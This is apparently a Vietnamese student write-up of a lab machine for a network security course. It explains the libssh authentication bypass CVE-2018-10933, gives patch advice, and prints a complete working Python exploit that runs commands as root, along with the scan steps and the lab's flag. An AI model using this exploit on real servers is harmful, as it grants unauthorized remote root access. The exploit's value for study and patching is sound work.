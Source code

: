 ```yaml
---
title: Bob Machine Writeup
subtitle: Linux Challenge trong môn An toàn mạng máy tính
readtime: true
thumbnail-img: /assets/img/BobMachine/thumbnail.jpeg
cover-img: /assets/img/BobMachine/cove-img.jpeg
tags: [Linux, Machine, Libssh, CVE]
---
```


# ***Thông tin dịch vụ***

| Địa chỉ IP      | Các port đang mở |
| ----------- | ----------- |
| 192.168.19.112  | TCP: 22, 25, 53, 80, 110, 143, 443, 587, 993,995, 3306, 7337   |
|    | UDP: Không có  |

# ***Leo thang đặc quyền***

**Lỗ hổng đã khai thác:**

> **LibSSH 0.7.6 / 0.8.4 - Unauthorized Access (CVE-2018-10933)**

**Giải thích lỗ hổng:**
Một lỗ hổng nghiêm trọng trong Libssh, thư viện triển khai Secure Shell (SSH) đã đửợc phát hiện, cho phép vượt quá cơ chế xác thực và chiếm quyền quản trị trên máy chủ tồn tại lỗ hổng mà không cần mật khẩu. Lỗ hổng được đặt tên là `CVE-2018-10933`, tồn tại trong phiên bản Libssh 0.6 đửợc phát hành trước năm 2014, khiến máy chủ các doanh nghiệp bị tấn công khi sử dụng các phiên bản trửớc 0.7.6 và 0.8.4. Nhửng rất may là OpenSSH và triển khai libssh trên Github không bị ảnh hửởng bởi lỗ hổng. Lỗ hổng xuất phát từ lỗi codế trong Libssh và "vô cùng đơn giản" để khai thác. Kẻ tấn công chỉ cần gửi một thông điệp `SSH2_MSG_USERAUTH_SUCCESS` tới một
máy chủ có kết nối SSH đửợc kích hoạt, tháy vì thông điệp chính xác là `SSH2_MSG_USERAUTH_REQUEST`. Vì lỗi logic trong libssh, thử viện không xác thực đửợc gói tin “đăng nhập thành công” đửợc gửi bởi máy chủ hay từ client và cũng không thể kiểm tra chính xác quá trình xác thực đã hoàn thành hay chưa. Do đó, nếu kẻ tấn công từ xa (client) gửi phản hồi `SSH2_MSG_USERAUTH_SUCCESS` này tới libssh, libssh coi xác thực đã thành công và cấp cho kẻ tấn công quyền truy cập vào máy chủ mà không cần nhập mật khẩu. Libssh đã giải quyết vấn đề này bằng việc phát hành các phiên bản libssh 0.8.4 và 0.7.6 vào ngày 16/10/2018, đồng thời công bố thông tin chi tiết của lỗ hổng.

**Khuyến nghị vá lỗ hổng:**
Nếu đã cài đặt Libssh trên trang web và đang sử dụng thành phần máy chủ, người dùng được khuyến cáo nên cài đặt các phiên bản cập nhật của Libssh trong thời gian sớm nhất.

**Mức độ ảnh hưởng:** [Cao] (CVSS Score: 6.4)

**Cách thức khai thác:**

```js
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

#pip3 install paramiko==2.0.8
#logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
logging.basicConfig(stream=sys.stdout)
bufsize = 2048

def execute(hostname, port, command):

 sock = socket.socket()

 try:
    sock.connect((hostname, int(port)))
    message = paramiko.message.Message()
    transport = paramiko.transport.Transport(sock)
    transport.start_client()
    message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
    transport._send_message(message)
    client = transport.open_session(timeout=10)
    client.exec_command(command)
    # stdin = client.makefile("wb", bufsize)
    stdout = client.makefile("rb", bufsize)
    stderr = client.makefile_stderr("rb", bufsize)
    output = stdout.read()
    error = stderr.read()
    stdout.close()
    stderr.close()
    return (output+error).decode()

 except paramiko.SSHException as e:
    logging.exception(e)
    logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

 except socket.error:
    logging.debug("Unable to connect.")
 return None
 
if __name__ == '__main__':
 print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```

**Các bước khai thác:**

Sử dụng công cụ nmap thực hiện quét các port đáng mở trên máy mục tiêu 192.168.19.112. Kết quả cho thấy có 12 port TCP đáng mở gồm: `22, 25 53, 80, 110, 143, 443, 587, 993, 995, 3306, 7337`.

![nmap all ports](/assets/img/BobMachine/nmap.png){: .mx-auto.d-block :}

Sau nhiều thời gian khám phá, scan tất cả các port từ trên xuống dưới, ta tìm ra lỗ hổng từ port `7337` với dịch vụ SSH phiên bản `libssh 0.8.3`

![nmap 7337](/assets/img/BobMachine/nmap2.png){: .mx-auto.d-block :}

Thực hiện tìm kiếm các mã exploit phiên bản libssh này bằng công cụ searchsploit. Kết quả trả về 2 lỗ hổng liên quan đến libssh bao gồm mã exploit có thể sử dụng. Sau quá trình khai thác lỗ hổng đầu tiên không thành công, ta thực hiện khai thác lỗ hổng `Unauthorized Access` của libssh (đã đề cập ở trên). Truy cập đường dẫn và sử dụng mã nguồn đã cung cấp ở trên.

![searchsploit](/assets/img/BobMachine/libssh_cve.png){: .mx-auto.d-block :}

Mã exploit trên là đoạn mã python3, được ta sử dụng với 3 tham số: `IP nạn nhân (192.168.19.112), Port (7337), Command (lệnh thực thi trên shell)`. Dưới đây chúng tôi sử dụng lệnh `ls` để kiểm chứng.

![ls](/assets/img/BobMachine/exploit_ls.png){: .mx-auto.d-block :}

Kết quả trả về gồm các thư mục hiện có trên máy nạn nhân.

**Hình ảnh minh chứng:**

Kiểm tra tên user bằng lệnh whoami, thì kết quả cho thấy chúng tôi đã exploit được và leo thang đặc quyền lên root.

![whoami](/assets/img/BobMachine/whoami.png){: .mx-auto.d-block :}

**Nội dung tập tin Proof.txt:**

Tìm kiếm file proof.txt bằng `find / -uname proof.txt 2>/dev/null`. Kết quả trả về `root/proof.txt`, `cat` để xem nội dung flag có trong tập tin proof.txt.

![flag](/assets/img/BobMachine/flag.png){: .mx-auto.d-block :}

> **FLAG: flag{khong_som_thi_chieu_khong_mai_thi_mo}**
